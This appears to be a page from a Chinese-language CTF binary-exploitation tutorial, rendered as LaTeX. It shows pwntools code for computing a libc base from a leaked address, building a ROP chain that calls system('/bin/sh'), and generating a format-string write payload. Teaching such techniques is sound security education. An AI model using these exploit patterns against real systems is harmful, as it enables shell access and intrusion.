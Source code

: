 \documentclass[10pt,a4paper]{article}
\newenvironment{Shaded}{\begin{snugshade}}{\end{snugshade}}
\newcommand{\BaseNTok}[1]{\textcolor[rgb]{0.00,0.00,0.81}{#1}}
\newcommand{\BuiltInTok}[1]{#1}
\newcommand{\CharTok}[1]{\textcolor[rgb]{0.31,0.60,0.02}{#1}}
\newcommand{\CommentTok}[1]{\textcolor[rgb]{0.56,0.35,0.01}{\textit{#1}}}
\newcommand{\DecValTok}[1]{\textcolor[rgb]{0.00,0.00,0.81}{#1}}
\newcommand{\NormalTok}[1]{#1}
\newcommand{\OperatorTok}[1]{\textcolor[rgb]{0.81,0.36,0.00}{\textbf{#1}}}
\newcommand{\StringTok}[1]{\textcolor[rgb]{0.31,0.60,0.02}{#1}}
\newcommand{\VariableTok}[1]{\textcolor[rgb]{0.00,0.00,0.00}{#1}}
\renewenvironment{Shaded}{%
  \def\FrameCommand{\fboxsep=3.2pt\colorbox{shadecolor}}%
  \MakeFramed{\advance\hsize-\width\FrameRestore\small}%
}{%
  \endMakeFramed
}
\begin{document}
\begin{Shaded}
\begin{Highlighting}[]
\NormalTok{libc }\OperatorTok{=}\NormalTok{ ELF(}\StringTok{\textquotesingle{}./libc.so.6\textquotesingle{}}\NormalTok{, checksec}\OperatorTok{=}\VariableTok{False}\NormalTok{)   }\CommentTok{\# 有附 libc 就用附的（見 4.3.1）}
\NormalTok{libc.symbols[}\StringTok{\textquotesingle{}system\textquotesingle{}}\NormalTok{]                      }\CommentTok{\# libc 檔內的 offset，例如 0x58740}
\NormalTok{libc.address }\OperatorTok{=}\NormalTok{ leaked\_printf }\OperatorTok{{-}}\NormalTok{ libc.symbols[}\StringTok{\textquotesingle{}printf\textquotesingle{}}\NormalTok{]   }\CommentTok{\# ✶ 這一行就是「算 libc base」}
\BuiltInTok{next}\NormalTok{(libc.search(}\StringTok{b\textquotesingle{}/bin/sh\textquotesingle{}}\NormalTok{))               }\CommentTok{\# /bin/sh 的位址（自動加 libc.address）}

\CommentTok{\# {-}{-}{-}{-} ROP {-}{-}{-}{-}}
\NormalTok{rop }\OperatorTok{=}\NormalTok{ ROP(e)}
\NormalTok{rop.rdi }\OperatorTok{=} \BaseNTok{0xdeadbeef}       \CommentTok{\# 自動找 pop rdi; ret}
\NormalTok{rop.call(}\StringTok{\textquotesingle{}system\textquotesingle{}}\NormalTok{, [binsh])}
\BuiltInTok{print}\NormalTok{(rop.dump())          }\CommentTok{\# 看它組出來的鏈}
\NormalTok{rop.chain()}

\CommentTok{\# {-}{-}{-}{-} Format String（pwn2 那種「printf(buf)」的題目）{-}{-}{-}{-}}
\NormalTok{context.arch }\OperatorTok{=} \StringTok{\textquotesingle{}amd64\textquotesingle{}}                 \CommentTok{\# ✶ 習慣先設：不設的話 pwntools 預設是 \textquotesingle{}i386\textquotesingle{}，}
                                       \CommentTok{\#   而 SigreturnFrame() 之類的功能需要它（見 11.4）}
\NormalTok{payload }\OperatorTok{=}\NormalTok{ fmtstr\_payload(}
    \DecValTok{8}\NormalTok{,                                 }\CommentTok{\# 我們控制的「第幾個參數」（1{-}based，要自己先量出來）}
\NormalTok{    \{}\BaseNTok{0x404010}\NormalTok{: }\BaseNTok{0x7f1234558740}\NormalTok{\},        }\CommentTok{\# \{目標位址: 要寫進去的值\}}
\NormalTok{    write\_size}\OperatorTok{=}\StringTok{\textquotesingle{}byte\textquotesingle{}}\NormalTok{,                 }\CommentTok{\# 想以 1 byte 為單位寫（用 \%hhn）}
    \CommentTok{\# write\_size\_max=\textquotesingle{}byte\textquotesingle{},           \# ✶ 想「保證只用 \%hhn」才要加這行（見下面 !!）}
\NormalTok{    numbwritten}\OperatorTok{=}\DecValTok{0}\NormalTok{,                     }\CommentTok{\# 在這之前已經印出幾個字元（會影響 \%n 要寫的值）}
\NormalTok{    badbytes}\OperatorTok{=}\StringTok{b\textquotesingle{}}\CharTok{\textbackslash{}n}\StringTok{\textquotesingle{}}\NormalTok{,                    }\CommentTok{\# 不能出現在 payload 裡的位元組}
\NormalTok{)}
\CommentTok{\# 自動量出「第幾個參數是我們控制的」：}
\CommentTok{\# autofmt = FmtStr(execute\_fmt=lambda p: (p.sendline(b\textquotesingle{}\%p\textquotesingle{}), p.recvline())[1])}
\CommentTok{\# print(autofmt.offset)   \# → 8}


\end{Highlighting}
\end{Shaded}
\end{document}

